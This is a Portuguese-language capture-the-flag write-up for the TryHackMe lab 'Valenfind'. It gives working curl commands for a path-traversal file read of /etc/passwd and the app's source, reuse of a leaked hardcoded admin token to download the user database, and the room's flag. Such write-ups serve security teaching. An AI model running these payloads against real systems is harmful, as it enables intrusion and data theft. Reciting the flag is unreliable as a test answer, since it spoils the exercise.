




# TryHackMe — Valenfind
## Level 9 — Valenfind | LFI + Hardcoded Admin Token → Database Leak

**Categoria:** Web / Local File Inclusion / Exposição de Credenciais / Vazamento de Banco de Dados
**Dificuldade:** Médio

---

### 💌 Concierge Briefing

> My Dearest Hacker,
> There's this new dating app called "Valenfind" that just popped up out of nowhere. I hear the creator only learned to code this year; surely this must be vibe-coded. Can you exploit it?
>
> You can access it here: `http://10.66.176.110:5000`

---

## 🎯 Objetivo

O briefing sugere que a aplicação **Valenfind** foi desenvolvida às pressas ("vibe-coded") por um desenvolvedor iniciante, o que aponta para falhas básicas de segurança introduzidas por más práticas de codificação. O objetivo é mapear a aplicação, identificar pontos de entrada controlados pelo usuário que possam levar à leitura arbitrária de arquivos, usar essa falha para vazar o código-fonte da aplicação, extrair credenciais expostas no código e utilizá-las para acessar uma funcionalidade administrativa que expõe o banco de dados completo, onde a flag está armazenada.

---

## 🔍 Passo 1 — Homepage: ValenFind

Acessando `http://10.66.176.110:5000`:



A aplicação se apresenta como um app de encontros ("Find Your Valentine"), com opções de **Login** e **Sign Up**. Nada de incomum na página inicial — o próximo passo foi criar uma conta e explorar as áreas autenticadas da aplicação.

---

## 🔍 Passo 2 — Dashboard: Enumerando a Aplicação

Após criar uma conta e autenticar, o dashboard exibe uma lista de "matches" com perfis fictícios (romeo_montague, casanova_official, cleopatra_queen, sherlock_h, gatsby_great, jane_eyre, entre outros):



Nenhuma vulnerabilidade óbvia na interface visual, então a análise seguiu para o **código-fonte da página** e para as **chamadas de API** feitas pelo frontend, em busca de parâmetros que recebessem caminhos de arquivo ou nomes de templates — um padrão comum em aplicações "vibe-coded" que carregam layouts/temas dinamicamente.

---

## 🔍 Passo 3 — Descoberta de um Endpoint de Layout Vulnerável a LFI

A inspeção das chamadas de rede revelou um endpoint interessante: `/api/fetch_layout`, que recebia um parâmetro `layout` usado para carregar componentes de tema da aplicação. Isso é um forte indício de **Local File Inclusion (LFI)**.

Testando o parâmetro com um payload de traversal para `/etc/passwd`:

```bash
curl -i -s 'http://10.66.176.110:5000/api/fetch_layout?layout=../../../../etc/passwd'
```



```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.12.3
Content-Type: text/html; charset=utf-8
Content-Length: 2021
Connection: close

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
...
```

O endpoint retornou o conteúdo de `/etc/passwd` sem qualquer sanitização, confirmando **LFI não autenticada via path traversal**. A mesma resposta expôs, em uma tentativa anterior, uma pista valiosa sobre a estrutura de diretórios da aplicação:

```
Error loading theme layout: [Errno 2] No such file or directory: '/opt/Valenfind/templates/components/test'
```

Essa mensagem de erro revelou o caminho absoluto da aplicação: **`/opt/Valenfind`**.

---

## 🔍 Passo 4 — Vazando o Código-Fonte: `app.py`

Com o caminho da aplicação em mãos, o mesmo endpoint LFI foi usado para ler diretamente o código-fonte principal do backend:

```bash
curl -i -s 'http://10.66.176.110:5000/api/fetch_layout?layout=/opt/Valenfind/app.py'
```


```python
import os
import sqlite3
import hashlib
from flask import Flask, render_template, request, redirect, url_for, session, send_file, g, flash, jsonify
from seeder import INITIAL_USERS

app = Flask(__name__)
app.secret_key = os.urandom(24)

ADMIN_API_KEY = "CUPID_MASTER_KEY_2024_XOXO"
DATABASE = 'cupid.db'

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
        db.row_factory = sqlite3.Row
    return db
...
```

O código expôs, em texto plano, uma **chave de API administrativa hardcoded**: `ADMIN_API_KEY = "CUPID_MASTER_KEY_2024_XOXO"`. Esse é exatamente o tipo de falha esperado em uma aplicação "vibe-coded" — credenciais sensíveis embutidas diretamente no código-fonte, sem uso de variáveis de ambiente ou cofres de segredos.

---

## 🔍 Passo 5 — Explorando o Endpoint Administrativo: Vazamento do Banco de Dados

Com a chave `CUPID_MASTER_KEY_2024_XOXO` em mãos, o próximo passo foi identificar como ela era utilizada. A análise do código-fonte (e testes subsequentes) revelou o endpoint `/api/admin/export_db`, protegido por um header customizado `X-Valentine-Token`.

```bash
curl -s -H 'X-Valentine-Token: CUPID_MASTER_KEY_2024_XOXO' 'http://10.66.176.110:5000/api/admin/export_db' -o valenfind_leak.db
```

O endpoint aceitou a chave e retornou o arquivo completo do banco de dados SQLite da aplicação:

```bash
file valenfind_leak.db
```
```
valenfind_leak.db: SQLite 3.x database, last written using SQLite version 3045001, file counter 5, database pages 4, cookie 0x1, schema 4, UTF-8, version-valid-for 5
```

---

## 🚩 Passo 6 — Extraindo os Dados e Capturando a Flag

Com o banco de dados baixado, as tabelas e o conteúdo foram inspecionados diretamente via `sqlite3`:

```bash
sqlite3 valenfind_leak.db '.tables'
```
```
users
```

```bash
sqlite3 -header -column valenfind_leak.db 'SELECT * FROM users;'
```



```
id  username           password       real_name              email                  phone_number   address                                          bio                                                        likes  avatar_image
--  -----------------  -------------  ---------------------  ---------------------  -------------  -----------------------------------------------  ---------------------------------------------------------  -----  ------------
1   romeo_montague     juliet123      Romeo Montague         romeo@verona.cupid     555-0100-ROMEO 123 Balcony Way, Verona, VR 99999                 Looking for my Juliet. Where art thou?                     15     romeo.jpg
2   casanova_official  secret123      Giacomo Casanova       loverboy@venice.kiss   555-0155-LOVE  101 Grand Canal St, Venice, Italy                Just here for the free chocolate.                          5      casanova.jpg
3   cleopatra_queen    caesar_salad   Cleopatra VII Philopat queen@nile.river       555-0001-NILE  Royal Palace, Alexandria, Egypt                  I rule an empire, but I can't rule my heart. 👑              88     cleo.jpg
4   sherlock_h         watson_is_cool Sherlock Holmes        detective@baker.street 555-221B-KEYS  221B Baker Street, London, UK                    Observant, logical, looking for a mystery (or a date).      21     sherlock.jpg
5   gatsby_great       green_light    Jay Gatsby             jay@westegg.party      555-1922-RICH  Gatsby Mansion, West Egg, NY, USA                Throwing parties every weekend hoping you'll walk in.      105    gatsby.jpg
6   jane_eyre          rochester_blind Jane Eyre             jane@thornfield.book   555-1847-READ  Thornfield Hall, Yorkshire, UK                   Quiet, independent, looking for a connection of the soul.  33     jane.jpg
7   count_dracula      sunlight_sucks Vlad Dracula           vlad@night.walker      555-0666-BITE  Bran Castle, Transylvania, Romania               I love long walks at night and biting... necks?           666    dracula.jpg
8   cupid              admin_root_x99 System Administrator   cupid@internal.cupid   555-0000-ROOT  FLAG: THM{v1be_c0ding_1s_n0t_my_cup_0f_t3a}       I keep the database secure. No peeking.                    1000   cupid.jpg
9   Nistezy            123456                                                                                                                       New to ValenFind!                                          0      default.jpg
```

O registro do usuário `cupid` (o "administrador" da aplicação) continha a flag diretamente no campo **`address`**:

```
THM{v1be_c0ding_1s_n0t_my_cup_0f_t3a}
```

**Flag: `THM{v1be_c0ding_1s_n0t_my_cup_0f_t3a}`**

---

## 🚩 Flags

| Flag | Valor |
|------|-------|
| **Flag Única** | `THM{v1be_c0ding_1s_n0t_my_cup_0f_t3a}` |

---

## 📝 Resumo da cadeia de investigação

1. **Homepage** → ValenFind, aplicação de encontros com Login/Sign Up
2. **Dashboard** → autenticação e enumeração de perfis, sem falhas visuais óbvias
3. **`/api/fetch_layout?layout=...`** → endpoint de carregamento de temas vulnerável a **LFI via path traversal**
4. **`layout=../../../../etc/passwd`** → confirma leitura arbitrária de arquivos + mensagem de erro revela o caminho da aplicação: `/opt/Valenfind`
5. **`layout=/opt/Valenfind/app.py`** → vaza o código-fonte completo, expondo `ADMIN_API_KEY = "CUPID_MASTER_KEY_2024_XOXO"` hardcoded
6. **`curl -H 'X-Valentine-Token: CUPID_MASTER_KEY_2024_XOXO' /api/admin/export_db`** → download completo do banco `cupid.db`
7. **`sqlite3` dump da tabela `users`** → flag encontrada no campo `address` do usuário `cupid`: `THM{v1be_c0ding_1s_n0t_my_cup_0f_t3a}`

---